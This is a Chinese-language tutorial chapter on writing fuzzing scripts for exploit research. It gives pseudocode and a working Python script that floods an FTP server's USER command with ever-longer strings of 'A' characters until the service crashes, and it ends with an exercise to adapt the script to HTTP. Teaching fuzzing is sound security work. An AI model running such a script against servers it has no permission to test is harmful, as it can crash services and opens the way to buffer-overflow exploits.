 ##编写Fuzz测试脚本

 这一章将会演示教你如何写一个属于自己的Fuzz测试脚本，当我们进行exploit研究和开发的时候就可以使用脚本语言发送大量的测试数据给受害者机器，但是这个错误数据很容易引发应用程序崩溃掉。而Python却不同，当程序崩溃之后，此时你的程序会暂时断开连接，随后会立即创建一个新的连接继续执行。
 
 下面我们首先要解决的问题是应用程序如何处理用户输入的内容，因为在进行模糊测试的时候，我们会不定时的想到一些新的思路然后把数据发送给受害者机器上面来测试，这基本思路就是先与服务器建立连接,然后发送测试数据给服务器，通过while循环语句来判断是否成功，即使出现错误也会处理掉:
 
 下面是我们的扫描器伪代码:
 
 ```
 #导入socket,sys模块，如果是web服务那么还需要导入httplib,urllib等模块
 <import modules> 

#设置ip/端口
#调用脚本: ./script.py <RHOST> <RPORT>
RHOST = sys.argv[1]
RPORT = sys.argv[2]
 
#定义你的测试数据,并且设置测试数据范围值
buffer = '\x41'*50
 
#使用循环来连接服务并且发送测试数据
while True:
  try:
    # 发送测试数据
    # 直到递增到50
    buffer = buffer + '\x41'*50
  except:
    print "Buffer Length: "+len(buffer)
    print "Can't connect to service...check debugger for potential crash"
```

上面这个脚本框架能够适用于各种服务，你可以根据你的服务(https,http,mysql,sshd)编写特定模糊测试脚本.下面我们演示一个基于"USER"命令的ftp服务器模糊测试脚本:

```
#导入你将要使用的模块，这样你就不用去自己实现那些功能函数了
import sys, socket
from time import sleep
 
#声明第一个变量target用来接收从命令端输入的第一个值
target = sys.argv[1]
#创建50个A的字符串 '\x41'
buff = '\x41'*50
 
# 使用循环来递增至声明buff变量的长度50
while True:
  #使用"try - except"处理错误与动作
  try:
    # 连接这目标主机的ftp端口 21
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.settimeout(2)
    s.connect((target,21))
    s.recv(1024)
 
    print "Sending buffer with length: "+str(len(buff))
    #发送字符串:USER并且带有测试的用户名
    s.send("USER "+buff+"\r\n")
    s.close()
    sleep(1)
    #使用循环来递增直至长度为50
    buff = buff + '\x41'*50
 
  except: # 如果连接服务器失败，我们就打印出下面的结果
    print "[+] Crash occured with buffer length: "+str(len(buff)-50)
    sys.exit()
```

上面这段代码演示了一个基本的Fuzz测试脚本，但是值得注意的是执行上面的代码，提交'\x41'字符可能不会让你成功的拿下受害主机，但是你可以尝试组合一些其他的字符(用户词典).此外还有一个更加强大的Fuzz测试工具[Spike](https://www.blackhat.com/presentations/bh-usa-02/bh-us-02-aitel-spike.ppt)和[具体介绍与演示](http://resources.infosecinstitute.com/intro-to-fuzzing/),它可以一次性的测试大量数据，并且能让你提高成功概率.

**练习**
大家可以把上面的ftp测试换成http测试，这里提示:你可能需要使用httplib/urllib.
